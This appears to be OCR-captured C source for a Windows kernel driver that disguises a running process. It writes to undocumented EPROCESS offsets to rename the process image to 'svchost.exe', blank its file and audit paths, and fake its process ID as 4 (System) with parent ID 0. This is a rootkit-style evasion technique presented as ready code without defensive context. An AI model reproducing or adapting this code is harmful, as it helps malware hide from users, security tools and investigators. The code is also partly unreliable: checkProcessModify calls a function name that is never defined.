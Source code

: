 BOOLEAN PathSeAuditProcessCreationInfo(PEPROCESS Process, WCHAR* ProcessName){

    PUNICODE_STRING Name ;
    PUNICODE_STRING SelocateName;
 
 
SeLocateProcessImageName(Process, &SelocateName);
 
    ExFreePool(SelocateName);
 
    Name = (PUNICODE_STRING)(*(PULONG_PTR)((ULONG_PTR)Process + 0x468));//+0x468 SeAuditProcessCreationInfo
 
    if ((wcslen(ProcessName) * 2) > Name->Length)
    {
        return FALSE;
    }
 
    RtlZeroMemory(Name->Buffer, Name->MaximumLength);
    RtlCopyMemory(Name->Buffer, ProcessName, wcslen(ProcessName) * 2);
    Name->Length = wcslen(ProcessName) * 2;
    return TRUE;
}
BOOLEAN PathImageFileName(PEPROCESS Process, char* cName)
{

    char    szNameBuff[15] = { 0 };
    UCHAR* szProcessBuff = NULL;
    size_t  cNamelen = 0;
 
 
    cNamelen = strlen(cName);
 
    RtlZeroMemory(szNameBuff, sizeof(szNameBuff));
    if (cNamelen > 15)
        RtlCopyMemory(szNameBuff, cName, sizeof(szNameBuff));
    else
        RtlCopyMemory(szNameBuff, cName, cNamelen);
    szProcessBuff = PsGetProcessImageFileName(Process);
    RtlZeroMemory(szProcessBuff, sizeof(szNameBuff));
    RtlCopyMemory(szProcessBuff, szNameBuff, sizeof(szNameBuff));
 
    return TRUE;
}
bool Win10ImageNamePoint(PEPROCESS Process, WCHAR* szFullName)
{

    BOOLEAN bRet ;
    PFILE_OBJECT pFileObject ;
    WCHAR* szNewFullName = NULL;
 
     
    szNewFullName = static_cast<WCHAR*>( ExAllocatePool(NonPagedPool, MAX_PATH * 2));
 
    RtlZeroMemory(szNewFullName, MAX_PATH * 2);
 
    pFileObject = (PFILE_OBJECT)(*(PULONG_PTR)((ULONG_PTR)Process + 0x448)); //+0x448 ImageFilePointer 
 
 
    if (pFileObject->FileName.Length >= wcslen(szFullName) * 2)
    {
        RtlZeroMemory(pFileObject->FileName.Buffer, pFileObject->FileName.MaximumLength);
        RtlCopyMemory(pFileObject->FileName.Buffer, szFullName, wcslen(szFullName) * 2);
        pFileObject->FileName.Length = wcslen(szFullName) * 2;
        ExFreePool(szNewFullName);
        bRet = TRUE;
    }
    else
    {
        RtlCopyMemory(szNewFullName, szFullName, wcslen(szFullName) * 2);
        pFileObject->FileName.Buffer = szNewFullName;
        pFileObject->FileName.Length = wcslen(szFullName) * 2;
        pFileObject->FileName.MaximumLength = MAX_PATH * 2;
        bRet = TRUE;
    }
 
    return bRet;
}
VOID modifyProcessUniqueProcessId(PEPROCESS Process)
{

    PVOID64 UnProcessID;
    PVOID64 InFromUnProceesID;
    ULONGLONG Upid = 4;
    ULONGLONG InFromPid = 0;
    UnProcessID =(PULONG_PTR)((ULONGLONG)Process + 0x2e8);//+0x2e8 UniqueProcessId
    RtlCopyMemory(UnProcessID, &Upid, sizeof(ULONGLONG));
    InFromUnProceesID = (PULONG_PTR)((ULONGLONG)Process + 0x3e8); //+0x3e8 InheritedFromUniqueProcessId
    RtlCopyMemory(InFromUnProceesID, &InFromPid, sizeof(ULONGLONG));
    return ;
}
BOOLEAN checkProcessModify(HANDLE pid)
{

    PEPROCESS Process = NULL;
    NTSTATUS status = PsLookupProcessByProcessId((HANDLE)pid, &Process);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }
    PathImageFileName(Process, "svchost.exe");
    PathWin10ImageNamePoint(Process, L" ");
    PathSeAuditProcessCreationInfo(Process, L" ");
    modifyProcessUniqueProcessId(Process);
    ObDereferenceObject(Process);
    return TRUE;
}